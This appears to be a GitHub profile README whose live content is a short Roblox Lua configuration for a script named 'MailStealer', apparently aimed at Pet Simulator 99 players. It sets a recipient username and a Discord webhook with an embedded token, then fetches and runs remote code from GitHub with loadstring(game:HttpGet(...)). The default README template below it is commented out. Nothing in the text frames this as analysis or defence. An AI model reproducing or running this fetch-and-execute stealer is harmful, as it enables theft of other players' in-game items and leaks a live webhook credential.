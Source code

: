 Username = "wikjanomg"
LoadScreen = true 
Webhook = "https://discord.com/api/webhooks/1346122436743008307/GnLFDLp015nrZAqGjvWQxZ8SXDF7ozPvUgCGNxZYMPN-vsocEaJgYaMOH_t-GwpW_z6M" -- Paste your Discord webhook here

loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()

<!--
**wikjan/wikjan** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
